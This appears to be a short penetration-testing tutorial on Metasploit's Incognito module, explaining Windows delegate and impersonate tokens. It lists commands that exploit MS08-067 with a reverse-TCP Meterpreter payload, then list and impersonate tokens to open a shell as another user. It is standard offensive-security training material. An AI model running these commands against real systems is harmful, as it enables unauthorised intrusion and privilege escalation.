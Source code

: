 * **Incognito Overview**  
  Incognito allows token impersonation to gain privileges without credentials. Tokens are like temporary keys (similar to cookies) that allow access. Types of tokens:  
  - **Delegate tokens**: Created for interactive sessions (e.g., RDP).  
  - **Impersonate tokens**: For non-interactive sessions (e.g., network drives).  
  Tokens persist until reboot and allow privilege escalation.  

* **Using Incognito in Meterpreter**  
  1. **Load exploit and set target**:
     ```bash
     msf > use exploit/windows/smb/ms08_067_netapi
     msf exploit(ms08_067_netapi) > set RHOST <target IP>
     msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
     msf exploit(ms08_067_netapi) > set LHOST <your IP>
     msf exploit(ms08_067_netapi) > set TARGET 8
     msf exploit(ms08_067_netapi) > exploit
     ```
     After successful exploitation:
     ```bash
     meterpreter >
     ```

  2. **Load Incognito module**:
     ```bash
     meterpreter > use incognito
     ```

  3. **List available tokens**:
     ```bash
     meterpreter > list_tokens -u
     ```

  4. **Impersonate a token**:
     ```bash
     meterpreter > impersonate_token <DOMAIN\\User>
     ```

  5. **Check current user**:
     ```bash
     meterpreter > getuid
     ```

  6. **Run a shell as impersonated user**:
     ```bash
     meterpreter > shell
     C:\WINDOWS\system32> whoami
     ```

